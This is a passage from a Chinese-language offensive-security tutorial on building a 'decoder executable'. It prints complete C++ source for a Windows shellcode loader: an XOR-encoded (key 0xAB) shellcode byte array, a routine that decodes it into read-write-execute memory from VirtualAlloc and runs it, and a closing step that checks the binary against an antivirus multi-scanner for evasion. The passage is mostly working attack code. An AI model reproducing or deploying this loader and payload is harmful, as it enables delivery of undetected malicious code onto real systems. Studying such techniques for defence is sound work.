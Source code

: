 # 创建一个解码器可执行文件

让我们使用新生成的 shellcode 编写一个程序，将生成一个可执行文件，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x57\x43\x29\xab\xab\xab\xcb\x22\x4e\x9a\x6b\xcf\x20\xfb\x9b"
"\x20\xf9\xa7\x20\xf9\xbf\x20\xd9\x83\xa4\x1c\xe1\x8d\x9a\x54"
"\x7\x97\xca\xd7\xa9\x87\x8b\x6a\x64\xa6\xaa\x6c\x49\x59\xf9"
"\xfc\x20\xf9\xbb\x20\xe1\x97\x20\xe7\xba\xd3\x48\xe3\xaa\x7a"
"\xfa\x20\xf2\x8b\xaa\x78\x20\xe2\xb3\x48\x91\xe2\x20\x9f\x20"
"\xaa\x7d\x9a\x54\x7\x6a\x64\xa6\xaa\x6c\x93\x4b\xde\x5d\xa8"
"\xd6\x53\x90\xd6\x8f\xde\x4f\xf3\x20\xf3\x8f\xaa\x78\xcd\x20"
"\xa7\xe0\x20\xf3\xb7\xaa\x78\x20\xaf\x20\xaa\x7b\x22\xef\x8f"
"\x8f\xf0\xf0\xca\xf2\xf1\xfa\x54\x4b\xf4\xf4\xf1\x20\xb9\x40"
"\x26\xf6\xc3\x98\x99\xab\xab\xc3\xdc\xd8\x99\xf4\xff\xc3\xe7"
"\xdc\x8d\xac\x54\x7e\x13\x3b\xaa\xab\xab\x82\x6f\xff\xfb\xc3"
"\x82\x2b\xc0\xab\x54\x7e\xc1\xae\xc3\x86\xe7\x8a\x9e\xc3\xa9"
"\xab\xae\x92\x22\x4d\xfb\xfb\xfb\xfb\xeb\xfb\xeb\xfb\xc3\x41"
"\xa4\x74\x4b\x54\x7e\x3c\xc1\xbb\xfd\xfc\xc3\x32\xe\xdf\xca"
"\x54\x7e\x2e\x6b\xdf\xa1\x54\xe5\xa3\xde\x47\x43\xca\xab\xab"
"\xab\xc1\xab\xc1\xaf\xfd\xfc\xc3\xa9\x72\x63\xf4\x54\x7e\x28"
"\x53\xab\xd5\x9d\x20\x9d\xc1\xeb\xc3\xab\xbb\xab\xab\xfd\xc1"
"\xab\xc3\xf3\xf\xf8\x4e\x54\x7e\x38\xf8\xc1\xab\xfd\xf8\xfc"
"\xc3\xa9\x72\x63\xf4\x54\x7e\x28\x53\xab\xd6\x89\xf3\xc3\xab"
"\xeb\xab\xab\xc1\xab\xfb\xc3\xa0\x84\xa4\x9b\x54\x7e\xfc\xc3"
"\xde\xc5\xe6\xca\x54\x7e\xf5\xf5\x54\xa7\x8f\x42\xda\x54\x54"
"\x54\xaa\x68\x82\x6d\xde\x6c\x68\x10\x5b\x1e\x9\xfd\xc1\xab"
"\xf8\x54\x7e\xab";

int main()
  {
    void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    for (unsigned int i = 0; i < sizeof encoded; ++i)
      {
        unsigned char val = (unsigned int)encoded[i] ^ 0xAB;
        encoded[i] = val;
      }
    memcpy(exec, encoded, sizeof encoded);
    ((void(*)())exec)();
    return 0;
  }

```

前面的代码将只是使用`XOR`解密例行编码的 shellcode，并使用`memcpy`函数将 shellcode 复制到可执行区域，然后从那里执行。让我们在 majyx 扫描仪上测试一下，如下面的屏幕截图所示：
